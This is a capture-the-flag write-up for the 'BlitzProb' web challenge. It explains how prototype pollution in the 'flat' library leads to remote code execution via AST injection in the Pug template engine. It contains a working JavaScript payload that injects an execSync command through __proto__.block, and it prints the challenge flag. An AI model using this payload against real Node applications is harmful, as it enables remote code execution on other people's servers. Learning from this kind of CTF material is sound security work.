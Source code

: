 ```yaml
---
title: BlitzProb
date: 2021-04-25 10:13:00 +0200
categories: [web]
tags: [cyberapocalpyse2021]
toc: false
---
```


This challenge contains a _Prototype Pollution_ to RCE via _AST Injection_. You can read more about it in this great [blog](https://blog.p6.is/AST-Injection/) post. (\* ^ ω ^)

Upon visiting the entry point, we are greeted with a aesthetic, futuristic looking feedback form. We are provided with a list of songs from a famous alien band named __Blitz Prop__ and asked to choose our favorite.

![](/assets/img/blitzProb_web.png#center)

## Vulnerability
If we go through the source code, we can see in the file `routes/index.js` that the `unflatten` function is the only thing processing our input. It turns the JSON that is send to it back into an object. What if we could write or overwrite other items in Node's object space?

The vulnerable code of the challenge:

``` javascript
const path              = require('path');
const express           = require('express');
const pug               = require('pug');
const { unflatten }     = require('flat');
const router            = express.Router();

router.get('/', (req, res) => {
    return res.sendFile(path.resolve('views/index.html'));
});

router.post('/api/submit', (req, res) => {
	const { song } = unflatten(req.body);

	if (song.name.includes('Not Polluting with the boys') || song.name.includes('ASTa la vista baby') || song.name.includes('The Galactic Rhymes') || song.name.includes('The Goose went wild')) {
		return res.json({
			'response': pug.compile('span Hello #{user}, thank you for letting us know!')({ user:'guest' })
		});
	} else {
		return res.json({
			'response': 'Please provide us with the name of an existing song.'
		});
	}
});

module.exports = router;
```

After reviewing the `package.json` file we can see that "flat" “5.0.0” is installed, which suffers from a _Prototype Pollution_ vulnerability. [Here](https://github.com/hughsk/flat/issues/105) you can find the PoC. 

How do we exploit this? There are no _if_ branches to bypass in the code. The default object space only has functions to overwrite, but since we can only submit valid JSON, we cannot define our own functions.

**Note:** This is because function definitions are not valid JSON. You can overwrite a function with a payload such as `{ 'Object.__proto__.toString': '() => return "Foo"' }` but it will eventually break everything, as a critical _function_ has now been redefined as a _string_.

We can achieve RCE if we can find an `exec()` or `eval()` statement anywhere in our application. Maybe Pug?

The `pug.compile` function converts a _string_ into a template _function_ and passes the _object_ for reference. It is a method to check the use of pug template engine in a black-box environment using prototype pollution.

When we insert AST into the `Object.prototype.block`, the compiler adds it to the buffer by referring to the value... (be sure to read the previously mentioned blog for a detailed explanation)... AST generated by `pug-parser` is passed to the `pug-code-gen` and made into a function and finally, it will be executed.

## Exploitation
To exploit this vulnerability and read the flag, we simply open the web console and send the payload below to "/api/submit":

```javascript
let CMD = "process.mainModule.require('child_process').execSync('cat /app/flag* >> /app/static/flag.txt')"

fetch('/api/submit', {
	method: 'POST',
	body: JSON.stringify({
		'song.name': "Not Polluting with the boys",
		"__proto__.block": {
			"type": "Text", 
			"line": CMD
		}
	}),
	headers: {'Content-Type': 'application/json'}
})
```

The flag file has been written to the _static_ directory (the only place where we have write access). After visiting `static/flag.txt` we see the flag:

> CHTB{p0llute_with_styl3}

٩(◕‿◕｡)۶
